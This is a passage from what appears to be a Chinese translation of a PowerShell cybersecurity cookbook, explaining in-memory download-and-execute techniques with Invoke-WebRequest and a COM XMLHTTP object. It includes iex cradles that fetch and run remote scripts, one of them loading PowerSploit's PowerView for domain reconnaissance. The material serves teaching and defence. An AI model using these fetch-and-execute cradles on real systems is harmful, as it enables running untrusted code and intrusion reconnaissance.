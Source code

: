 还需要注意，即使内存中的方法可能看起来更隐蔽，由于 PowerShell 的安全透明性和出色的事件记录，它并不能完全保证隐匿性。

#### 解决方案

您可以使用以下代码片段实现这一点：

```
> Invoke-Expression (Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>'); <command from script>}
```

请注意，在此示例中，我们使用**Invoke-WebRequest**下载脚本，但您也可以使用任何其他允许您下载脚本的选项。使用**Invoke-Expression**或其别名**iex**，您可以直接执行脚本。

甚至可以在运行脚本时执行从脚本中导出的命令。

在这个示例中，我们将使用来自**Chapter01**的**HelloWorld.ps1**脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1)。

以下示例展示了你如何简单地下载并执行文件：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1')
```

使用这个示例，你可以下载并执行**PowerView**，直接运行**Get-NetDomain**命令，该命令包含在**PowerView**中：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain
```

### 使用 COM 下载并执行文件

你想要通过 COM 对象从互联网下载并执行文件。

#### 解决方案

在这个示例中，我们将使用来自**Chapter01**的**HelloWorld.ps1**脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)。

你可以使用以下代码片段来实现你的目标：

```
$Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
$HttpRequest = New-Object -ComObject Microsoft.XMLHTTP
$HttpRequest.open('GET', $Url, $false)
$HttpRequest.send()
iex $HttpRequest.responseText
```

你也可以更改请求的用户代理：
